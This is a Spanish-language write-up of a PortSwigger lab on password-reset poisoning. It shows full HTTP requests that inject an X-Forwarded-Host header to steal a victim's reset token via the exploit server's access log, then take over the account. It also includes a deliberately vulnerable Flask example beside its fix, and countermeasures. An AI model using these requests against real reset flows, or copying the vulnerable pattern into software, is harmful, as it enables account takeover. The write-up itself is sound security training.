

# Writeup: Password reset poisoning via middleware (PortSwigger)

- **Lab**: Password reset poisoning via middleware
- **URL**: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware
- **Categoría**: Authentication / Password reset / Host header injection vía `X-Forwarded-Host`
- **Dificultad**: Practitioner
- **Credenciales propias**: `wiener:peter`
- **Credenciales objetivo**: `carlos` (sin acceso a su email; password desconocido)

---

## 1. Objetivo

Cambiar el password de `carlos` y loguearse como él, sin conocer su password actual ni tener acceso a su email. La vulnerabilidad: el endpoint `POST /forgot-password` arma el link absoluto del email de reset usando un header HTTP que el cliente puede inyectar (`X-Forwarded-Host`). Si envenenamos ese header al disparar el reset de carlos, el link en su email apunta a un dominio que controlamos. Cuando carlos hace click, el token se filtra a nuestro access log.

### El insight central

Construir una URL absoluta requiere saber el hostname propio del server. Las opciones son:

- **Configuración estática**: leer el hostname de un archivo de config o variable de entorno. Inmune al cliente. Es la implementación correcta.
- **Header del request**: confiar en `Host` o derivados (`X-Forwarded-Host`, `X-Forwarded-Server`, `Forwarded`). Convenientes pero **autoritativos para el cliente**. Cualquier cosa que ponga el cliente termina en el link del email.

El "via middleware" del título apunta a que cambiar el `Host:` directamente no funciona: el reverse proxy delante del backend valida el `Host:` y rechaza requests con un valor que no matchea su vhost. Pero el backend, por configuración del middleware, prefiere el header `X-Forwarded-Host` (introducido típicamente por proxies legítimos para preservar el host original del cliente) cuando está presente. Eso abre la puerta: mantenemos `Host:` válido para pasar el middleware, e inyectamos `X-Forwarded-Host:` para envenenar el armado del link.

---

## 2. Reconocimiento

### 2.1 Mapear el flujo legítimo

`GET /login` → click en "Forgot password?" → form que pide username. Submit con `username=wiener`:

```http
POST /forgot-password HTTP/2
Host: 0adb00210332a7e4800703c100e900de.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

username=wiener
```

Response: `200 OK` con HTML conteniendo `<p>Please check your email for a reset password link.</p>`. Sin redirect, sin pista del token.

Email recibido en el inbox del exploit server (`Email client`):

```
From: no-reply@0adb00210332a7e4800703c100e900de.web-security-academy.net
To: wiener@exploit-0acf003903eca75780fc0266017d0016.exploit-server.net
Subject: Account recovery

Please follow the link below to reset your password.

https://0adb00210332a7e4800703c100e900de.web-security-academy.net/forgot-password?temp-forgot-password-token=y9t0nvc1dnshos9tmdnt4fn2tpg6w83a
```

Tres datos clave:

- **Path del reset**: `/forgot-password?temp-forgot-password-token=<TOKEN>`. El token se llama `temp-forgot-password-token` (nombre largo y específico, no genérico tipo `t=`).
- **Domain del link == Host de la request**. Esa correlación es la primera evidencia de que el server usa algún header del cliente para armar el link.
- **Hay exploit server con email client + access log + email-relay**: cualquier email enviado a `*@exploit-XXXX.exploit-server.net` se entrega al inbox del exploit server.

### 2.2 Mapear el último paso del flujo

Click manual en el link del email → carga el form de "elegir password nuevo" → submit:

```http
POST /forgot-password?temp-forgot-password-token=y9t0nvc1dnshos9tmdnt4fn2tpg6w83a HTTP/2
Host: 0adb00210332a7e4800703c100e900de.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

temp-forgot-password-token=y9t0nvc1dnshos9tmdnt4fn2tpg6w83a&new-password-1=peter&new-password-2=peter
```

Response: `302 Found` con `Location: /`. Password de wiener cambiado.

Notar que el token va **redundantemente en URL y body**. Para el ataque sólo necesitamos el valor; lo enviamos en ambos lugares como hace el flujo legítimo.

### 2.3 Hipótesis sobre qué header envenenar

Cambiar `Host:` directamente probablemente sea rechazado por el middleware (proxy delante del backend). Headers candidatos a probar en orden:

1. `X-Forwarded-Host` — el más común, lo introducen reverse proxies para preservar el Host original.
2. `X-Host` — variante.
3. `Forwarded` (RFC 7239) — el "estándar" que reemplaza a X-Forwarded-*.
4. `X-Forwarded-Server` — menos común.
5. `X-Original-Host` — variante de algunos middlewares.

Empezamos por `X-Forwarded-Host` y, si falla, probamos los demás antes de descartar el vector.

---

## 3. Resolución

### 3.1 Confirmar el vector con tu propia cuenta

En Repeater, repetir la `POST /forgot-password` agregando el header inyectado:

```http
POST /forgot-password HTTP/2
Host: 0adb00210332a7e4800703c100e900de.web-security-academy.net
X-Forwarded-Host: exploit-0acf003903eca75780fc0266017d0016.exploit-server.net
Content-Type: application/x-www-form-urlencoded

username=wiener
```

Status: `200 OK`. Email recibido en el inbox del exploit server:

```
https://exploit-0acf003903eca75780fc0266017d0016.exploit-server.net/forgot-password?temp-forgot-password-token=ojnfxdx8tloh7zzl88iwkr08tbjvddaw
```

**Vector confirmado**: el dominio cambió de `0adb...web-security-academy.net` a `exploit-0acf...exploit-server.net`. El backend confía en `X-Forwarded-Host` para armar el link absoluto sin validar contra una allowlist de hosts.

Razón para validar primero contra tu propia cuenta: si el header no funciona, ves el fallo con tu email. Si lo probás directo contra carlos y falla, el lab puede haber generado un token "real" para carlos que se le mandó a su email real (no controlable) y se quema un intento sin saber por qué.

### 3.2 Atacar a carlos

Misma request, cambiando `username=wiener` por `username=carlos`:

```http
POST /forgot-password HTTP/2
Host: 0adb00210332a7e4800703c100e900de.web-security-academy.net
X-Forwarded-Host: exploit-0acf003903eca75780fc0266017d0016.exploit-server.net
Content-Type: application/x-www-form-urlencoded

username=carlos
```

Status: `200 OK`. El server emite un email a la dirección real de carlos (no la vemos), pero el link en ese email ahora apunta a nuestro exploit server. El lab simula a carlos haciendo click pocos segundos después.

Refrescar el **Access log** del exploit server:

```
10.0.3.167  2026-05-08 01:41:31 +0000  "GET /forgot-password?temp-forgot-password-token=g0159639x7pewwjkwp89do9t90dni7sh HTTP/1.1"  404  "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36..."
```

Tres elementos críticos en esa línea:

- **`GET /forgot-password?temp-forgot-password-token=g0159639x7pewwjkwp89do9t90dni7sh`**: el token de carlos, válido y vivo, en plaintext en la query string.
- **Status 404**: el exploit server no tiene un handler para `/forgot-password`, así que devuelve 404. No importa: la request fue *registrada* antes de que se procesara, así que el token quedó capturado.
- **`user-agent: Mozilla/5.0 (Victim) ...`**: el lab marca al "browser víctima" con `(Victim)` para que sepas que es la simulación de carlos haciendo click.

### 3.3 Consumir el token de carlos

Replicar el último paso del flujo legítimo (3.2 del recon), pero contra el lab original (sin envenenamiento; ya no necesitamos `X-Forwarded-Host` porque no estamos disparando ningún email, solo consumiendo el token):

```http
POST /forgot-password?temp-forgot-password-token=g0159639x7pewwjkwp89do9t90dni7sh HTTP/2
Host: 0adb00210332a7e4800703c100e900de.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

temp-forgot-password-token=g0159639x7pewwjkwp89do9t90dni7sh&new-password-1=hacked123&new-password-2=hacked123
```

Response: `302 Found` con `Location: /`. Password de carlos cambiado a `hacked123`.

### 3.4 Login como carlos

`POST /login` con `username=carlos&password=hacked123` → 302 a `/my-account?id=carlos`. El banner del lab cambia de `is-notsolved` a `is-solved`. Mensaje "Congratulations, you solved the lab!".

---

## 4. Por qué funciona

### 4.1 Confianza implícita en headers de proxy

Aplicaciones desplegadas detrás de reverse proxies (Nginx, AWS ALB, Cloudflare) ven typically un `Host:` interno (e.g., `backend.svc.cluster.local`) y dependen de headers como `X-Forwarded-For`, `X-Forwarded-Proto`, `X-Forwarded-Host` que el proxy *debería* setear con valores correctos derivados de la conexión del cliente.

El problema: muchos backends honran esos headers **incluso cuando vienen del cliente**, no del proxy. El proxy raramente strippea o normaliza headers de input — los pasa al backend sin chequear si fueron seteados por él o por el cliente. Si un atacante manda `X-Forwarded-Host: evil.com` directo, el proxy lo deja pasar, el backend lo lee como autoritativo, y termina en URLs absolutas, redirects, links, lo que sea.

Esta clase de vulnerabilidad se categoriza como **"Confused Deputy"**: el backend toma una decisión asumiendo que el dato viene de una entidad confiable (el proxy) cuando en realidad viene de una no confiable (el cliente).

### 4.2 ¿Por qué `X-Forwarded-Host` y no `Host:`?

Si cambiamos `Host:` directamente:

```http
Host: evil.com
```

El reverse proxy delante del backend (Nginx, ALB, etc.) usa `Host:` para decidir a qué backend enrutar. Si recibe `Host: evil.com` y no tiene un vhost configurado para `evil.com`, devuelve `404`, `421 Misdirected Request`, o una página default. La request no llega al backend de la app.

Pero `X-Forwarded-Host` es un header semánticamente "transparente" para el proxy: lo deja pasar al backend sin usarlo para enrutar. Así combinamos:

- `Host: 0adb...web-security-academy.net` → válido para el proxy, llega al backend.
- `X-Forwarded-Host: exploit-0acf...exploit-server.net` → no afecta enrutamiento, pero el backend lo usa para construir URLs absolutas.

Bypass perfecto: la primera capa (middleware) ve algo legítimo, la segunda capa (backend) consume nuestro veneno.

### 4.3 Implementación correcta

```python
# Antipatrón
@app.route('/forgot-password', methods=['POST'])
def forgot_password_broken():
    user = User.find_by_username(request.form['username'])
    if not user:
        return render_template('forgot.html', message='Email sent if account exists')
    token = generate_token(user)
    base_url = f"https://{request.headers.get('X-Forwarded-Host', request.host)}"
    reset_link = f"{base_url}/forgot-password?temp-forgot-password-token={token}"
    send_email(user.email, f"Reset link: {reset_link}")
    return render_template('forgot.html', message='Email sent if account exists')

# Implementación correcta
APP_HOSTNAME = os.environ['APP_HOSTNAME']  # ej: "app.example.com", de config

@app.route('/forgot-password', methods=['POST'])
def forgot_password_safe():
    user = User.find_by_username(request.form['username'])
    if not user:
        return render_template('forgot.html', message='Email sent if account exists')
    token = generate_token(user)
    reset_link = f"https://{APP_HOSTNAME}/forgot-password?temp-forgot-password-token={token}"
    send_email(user.email, f"Reset link: {reset_link}")
    return render_template('forgot.html', message='Email sent if account exists')
```

Cuatro diferencias críticas:

1. **`APP_HOSTNAME` se carga de config/env**, no del request. Inmune al cliente.
2. **Sin fallback a headers**: ni `Host:`, ni `X-Forwarded-Host`. Si el server necesita un hostname, lo carga al boot.
3. **Si querés multi-tenant** y necesitás derivar el hostname: validar contra una allowlist explícita (`ALLOWED_HOSTS = {"app.example.com", "app.tenant1.com"}`) y rechazar todo lo demás.
4. **Defensa en proxy**: el reverse proxy debería strippear `X-Forwarded-Host` del cliente y setearlo con el `Host:` real del cliente, no pasar el del cliente intacto.

### 4.4 Severidad y patrones generales

Password reset poisoning es un caso particular de **Host header injection**. El mismo defecto puede aparecer en:

- **Verification emails** (verificá tu cuenta haciendo click): mismo patrón, mismo impacto (takeover).
- **Magic login links** (passwordless): el atacante captura el link y entra como la víctima.
- **Cache poisoning**: si la URL del Host se cachea, el atacante envenena recursos para todos los usuarios.
- **SSRF lateral**: redirects o webhooks que usen `X-Forwarded-Host` para construir URLs internas.
- **Open redirect**: si la app hace `redirect(f"https://{Host}/...")` para algunos flujos.

La defensa unificada: **nunca confiar en headers para identidad o construcción de URLs**. La regla aplica a `X-Forwarded-Host`, `X-Real-IP`, `X-Forwarded-For`, `Origin` cuando se usa como auth (porque el cliente lo controla), etc. Si el dato viene del cliente, validalo o no lo uses para decisiones de seguridad.

### 4.5 Diferencia con el lab "Password reset broken logic"

| Aspecto | Broken logic (lab anterior) | Via middleware (este) |
|---|---|---|
| Vector | Lógica del token (re-uso, predicción, falta de binding) | Construcción del link en el email |
| Lo que controla el atacante | El parámetro de username en la submission | El header de un request |
| Necesita acceso a email víctima | A veces sí, a veces no | No, el atacante recibe el token |
| Vector accionable end-to-end | A veces necesita info adicional | Sí, autocontenido |
| Fix | Validar token + binding a user/sesión | Hostname desde config, no desde header |
| MITRE ATT&CK | T1556 (Modify Authentication Process) | T1556 + T1557 (Adversary-in-the-Middle por interceptación de email) |

Ambos son ATO via password reset, pero por capas distintas: broken logic ataca la lógica de validación del token, via middleware ataca el canal de delivery del token.

---

## 5. Resumen de la cadena



Tres ideas para llevarse:

1. **Headers son input del cliente, aunque parezcan de la infraestructura**. `X-Forwarded-Host` se ve "técnico" pero no tiene autoridad: cualquier proxy correcto lo strippea del cliente y lo setea con datos confiables. Backend que confía en él directamente está confundiendo proxy con cliente.
2. **Construcción de URLs absolutas debe usar config estática**, no derivarse del request. Si necesitás flexibilidad multi-tenant, validá contra allowlist explícita.
3. **El email es un canal de delivery con estado interno**: una vez enviado, no podés "des-enviarlo". Cualquier dato que entre al body del email (links, tokens, info personal) está fuera de tu control. Validar la integridad del contenido **antes** de enviarlo.

---

## 6. Contramedidas

En orden de robustez:

1. **Hostname desde config/env, no del request**: la app boot loads `APP_HOSTNAME` de variable de entorno o archivo de config y la usa para todas las URLs absolutas que genera. Inmune a cualquier header.
2. **Allowlist de hosts permitidos** si por algún motivo se necesita derivar del request (multi-tenant verdadero): rechazar cualquier request cuyo `Host:` o `X-Forwarded-Host` no esté en la allowlist.
3. **Strip de headers `X-Forwarded-*` en el reverse proxy**: el proxy debe descartar cualquier `X-Forwarded-*` que venga del cliente y setearlo con valores derivados de la conexión real.
4. **Validación de input también para headers**: muchos middleware-frameworks normalizan body y query string pero ignoran headers. Cualquier header usado para decisiones de seguridad o construcción de URLs tiene que validarse contra un esquema esperado.
5. **Tokens de reset de un solo uso, ligados a user, con expiración corta** (15-30 min): incluso si el atacante captura el token, el usuario legítimo puede invalidar el flujo loguéandose o disparando otro reset. (No mitiga este lab, pero acota la ventana de explotación.)
6. **Notificación al usuario** ante un reset password disparado: el email "Te disparamos un reset" se manda al canal alternativo (si tenés MFA app) o al mismo email pero como mensaje de confirmación. Si carlos hubiera visto "alguien pidió reset de tu cuenta" sin haberlo pedido, podría haber alertado al security team.
7. **Detección anómala**: múltiples requests `POST /forgot-password` con `X-Forwarded-Host` distinto al esperado, o resets disparados desde IPs no asociadas al usuario. Logging + alerta de WAF/SIEM.
8. **Out-of-band confirmation** para cambios sensibles: en lugar de "recibís un link y cambiás el pwd", "recibís un código de 6 dígitos en email/SMS y lo ingresás en la sesión que disparó el reset". El token nunca viaja como link clickeable.

---

## 7. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Password reset poisoning via middleware*. https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware
- PortSwigger Web Security Academy. (s.f.). *HTTP Host header attacks*. https://portswigger.net/web-security/host-header
- PortSwigger Web Security Academy. (s.f.). *Authentication: Other mechanisms*. https://portswigger.net/web-security/authentication/other-mechanisms
- OWASP Foundation. (s.f.). *Forgot Password Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Forgot_Password_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Authentication Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html
- MITRE Corporation. (2024). *ATT&CK Technique T1556: Modify Authentication Process*. https://attack.mitre.org/techniques/T1556/
- MITRE Corporation. (2024). *ATT&CK Technique T1557: Adversary-in-the-Middle*. https://attack.mitre.org/techniques/T1557/
- MITRE Corporation. (2024). *CWE-640: Weak Password Recovery Mechanism for Forgotten Password*. https://cwe.mitre.org/data/definitions/640.html
- MITRE Corporation. (2024). *CWE-444: Inconsistent Interpretation of HTTP Requests (HTTP Request Smuggling)*. https://cwe.mitre.org/data/definitions/444.html
- IETF. (2014). *RFC 7239: Forwarded HTTP Extension*. https://datatracker.ietf.org/doc/html/rfc7239
- Kettle, J. (2018). *Practical Web Cache Poisoning*. PortSwigger Research. https://portswigger.net/research/practical-web-cache-poisoning
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 6 (Attacking Authentication), §6.4 (Forgotten Password Functionality).
- Writeup hermano: [`learning/portswigger/password-reset-broken-logic/writeup.md`](../password-reset-broken-logic/writeup.md) — variante por lógica del token (no por header).
- Inventario interno: [`inventario/04-explotacion/web/explotacion-password-reset-flaws.md`](../../../inventario/04-explotacion/web/explotacion-password-reset-flaws.md)
